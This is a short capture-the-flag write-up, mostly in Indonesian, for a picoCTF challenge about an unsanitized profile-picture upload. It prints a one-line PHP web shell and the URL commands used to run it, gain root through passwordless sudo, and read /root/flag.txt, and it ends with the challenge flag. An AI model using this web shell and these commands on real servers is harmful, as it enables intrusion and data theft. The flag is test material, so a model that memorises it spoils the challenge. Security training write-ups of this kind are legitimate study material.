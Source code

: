 Author: Prince Niyonshuti N.

Description
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.
Additional details will be available after launching your challenge instance.

hints: remote machine, files not sanitized
skills gained: remote code execution (RCE)

1. Karena dari judul sudah jelas kalau ini tidak tersanitasi dan juga challenge didalamnya hanya berbentuk upload file saja. Berarti ini termasuk 'file upload vurnerability'
2. bahasa pemrograman yang dipakai pada website tersebut adalah php, maka kita buat file bernama script.php
3. isi file dari script.php tersebut adalah ini
	'<?php system($_GET['cmd']); ?>'
4. Upload script.php tersebut di form uploadnya, lalu cobalah akses cmd secara langsung ?cmd=whoami
5. Jika terdapat keluar www-data, maka kita berhasil melakukan RCE. dan kalau kita coba ?cmd=sudo+-l pada url dan hasilnya 
	'User www-data may run the following commands on challenge:
    (ALL) NOPASSWD: ALL'
   berarti kamu berhasil mengakses semua perintah sebagai root tanpa password sama sekali
6. sekarang coba jalankan ?cmd=sudo+cat+/root/flag.txt karena kita sudah dapat hint kalau flag tersebut berada root dari deskripsi challenge tersebut.
7. Seharusnya flag tersebut tertampil di halaman.



flag: picoCTF{wh47_c4n_u_d0_wPHP_80eedb7d}
